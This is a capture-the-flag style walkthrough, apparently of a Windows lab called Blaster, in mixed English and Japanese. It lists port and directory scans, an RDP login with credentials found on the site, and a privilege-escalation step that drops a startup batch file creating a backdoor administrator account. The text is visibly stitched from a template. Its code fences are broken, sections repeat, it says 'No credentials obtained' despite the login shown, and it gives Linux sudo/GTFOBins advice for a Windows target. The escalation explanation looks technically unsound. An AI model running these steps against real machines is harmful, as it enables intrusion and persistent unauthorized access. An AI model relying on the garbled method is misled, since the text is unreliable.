

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | web-enumeration, credential-discovery, rdp-login |
| Privilege Escalation Path | weak-service-permission-abuse |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)

```

## Nmap
```
ip
```

```
nmap -p- -sC -sV -T4 $ip
feroxbuster -u http://$ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

## 1. Reconnaissance

まず公開面を確認し、Web と RDP の両方を入口候補として扱います。

```
nmap -p- -sC -sV -T4 $ip
feroxbuster -u http://$ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 100 -x php,html,txt -r --timeout 3 --no-state -s 200,301 -e -E
```

列挙結果から `/retro`（WordPress）と `wp-login.php` が確認でき、Web経由の情報漏えい調査に進みます。

## 2. Initial Foothold

公開記事-コメントを調査すると、ユーザー名やパスワードのヒントが残されており、RDP 認証に再利用できるケースがありました。  
取得した資格情報でリモートデスクトップ接続し、低権限のユーザーシェルを得ます。

```
xfreerdp /u:wade /p:'parzival' /v:$ip /cert:ignore
```

## 3. Privilege Escalation

公開系の手法として、`AppReadiness` 関連タスク/サービスの権限不備を利用し、管理者権限へ昇格できる構成が確認されています。  
以下の確認で、サービス設定と書き込み権限の組み合わせを検証します。

```
sc.exe qc AppReadiness
icacls "C:\Windows\System32\Tasks\Microsoft\Windows\Application Experience\StartupAppTask"
```

書き込み可能な起動スクリプト領域に管理者追加コマンドを配置し、タスク実行タイミングで昇格させます。

```
$command = "net user hacker YourStrongPass!23 /add`r`nnet localgroup Administrators hacker /add"
Set-Content -Path "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\privesc.bat" -Value $command -Force
```

その後、作成した管理者ユーザーで再接続します。

```
xfreerdp /u:hacker /p:'YourStrongPass!23' /v:$ip /cert:ignore
```

## 4. Notes

Blaster は「Webの情報漏えいで初期資格情報を得る」「Windows の運用不備（起動スクリプト/サービス権限）で昇格する」という2段構成です。  
OSCP対策としては、Web で得た資格情報を RDP/SMB/WinRM に必ず横展開する癖をつけると再現性が上がります。
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
sc.exe qc AppReadiness
icacls "C:\Windows\System32\Tasks\Microsoft\Windows\Application Experience\StartupAppTask"
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- sudo
- php
- GTFOBins
